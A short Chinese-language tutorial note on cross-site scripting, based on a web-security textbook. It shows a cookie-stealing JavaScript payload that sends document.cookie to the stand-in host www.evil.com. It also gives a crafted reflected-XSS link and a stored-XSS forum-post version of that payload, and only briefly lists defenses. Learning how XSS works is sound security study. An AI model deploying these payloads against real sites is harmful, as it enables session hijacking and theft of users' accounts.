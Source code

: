 # Cross-site Scripting  跨站脚本攻击

## 基本原理
简单来说，就是通过 HTML 注入，插入恶意脚本进行攻击。

## XSS 类型
### 反射型 XSS
### 存储型 XSS
### DOM Based XSS

## XSS Payload
用以完成各种具体功能的恶意脚本，被称为 XSS Payload。XSS Payload 实际上就是 JS 脚本，
或者其他 Flash 等富客户端脚本。

### 用于 Cookie 劫持的 Payload
payload 脚本  `http://www.evil.com/payload.js`
```js
var img = document.createElement('img');
img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
```
只要上述代码被运行，则 `http://www.evil.com/log` 就可以获取到客户端的 cookie

#### 如果进行反射型 XSS：
假如网站 `www.foo.com` 的搜索功能有 XSS 漏洞，会把用户输入的内容直接添加到 DOM 中。  
1. 伪装以下链接并诱导用户点击：
`http://www.foo.com/search?word=%3cscript+src%3d%22http%3a%2f%2fwww.evil.com%2fpayload.js%22%3e%3c%2fscript%3e`
2. 用户点击后跳转到搜索页面，并加载 `http://www.evil.com/payload.js`
3. 如果当前用户此时在该网站为登录状态且保存了 cookie，则该 cookie 就会被 `payload.js`
发送到 `http://www.evil.com/log`

#### 如果进行存储型 XSS：
假如网站 `www.foo.com` 的论坛有 XSS 漏洞，会将用户发帖中的 HTML 标签直接添加进 DOM 从
而变得可执行。  
1. 直接把 `payload.js` 中的代码放在 `<script>` 标签里作为帖子内容的一部分发出去
```html
<script>
var img = document.createElement('img');
img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
</script>
```
2. 只要有用户进入这个帖子，上述脚本就会获取用户的 cookie 并发送


## 防御手段
* `HttpOnly`
* 输入检查

## References
* [白帽子讲Web安全](https://book.douban.com/subject/10546925/)
* <a href="https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)">WASP</a>
